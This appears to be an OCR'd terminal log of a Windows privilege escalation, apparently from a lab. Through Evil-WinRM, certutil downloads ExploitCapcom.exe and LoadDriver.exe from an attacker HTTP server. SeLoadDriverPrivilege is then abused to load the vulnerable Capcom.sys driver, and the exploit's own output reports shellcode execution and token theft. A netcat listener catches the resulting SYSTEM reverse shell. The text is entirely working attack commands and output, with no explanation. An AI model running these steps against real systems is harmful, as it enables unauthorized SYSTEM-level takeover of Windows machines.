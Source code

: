 
*Evil-WinRM* PS C:\temp> certutil -urlcache -f http://192.168.69.3:8000/ExploitCapcom.exe ExploitCapcom.exe
****  En línea  ****
CertUtil: -URLCache comando completado correctamente.


*Evil-WinRM* PS C:\temp> certutil -urlcache -f http://192.168.69.3:8000/LoadDriver.exe LoadDriver.exe
****  En línea  ****
CertUtil: -URLCache comando completado correctamente.

===========================================================================================================================================================================

*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe
[+] No path was given. Default path C:\ProgramData\rev.exe
[*] Capcom.sys exploit
[-] CreateFile failed



*Evil-WinRM* PS C:\temp> .\LoadDriver.exe System\CurrentControlSet\MyService Capcom.sys
RegCreateKeyEx failed: 0x0
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-3046175042-3013395696-775018414-1108\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0




┌──(kali㉿kali)-[~/Documents/pacharan/SeLoadDriverPrivilege]
└─$ nc -lvnp 4444    




*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe C:\temp\rev.exe
 
[+] Path is: C:\temp\rev.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000193C5AE0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program





┌──(kali㉿kali)-[~/Documents/pacharan/SeLoadDriverPrivilege]
└─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [192.168.69.3] from (UNKNOWN) [192.168.69.69] 65285
Microsoft Windows [Versi�n 10.0.14393]
(c) 2016 Microsoft Corporation. Todos los derechos reservados.
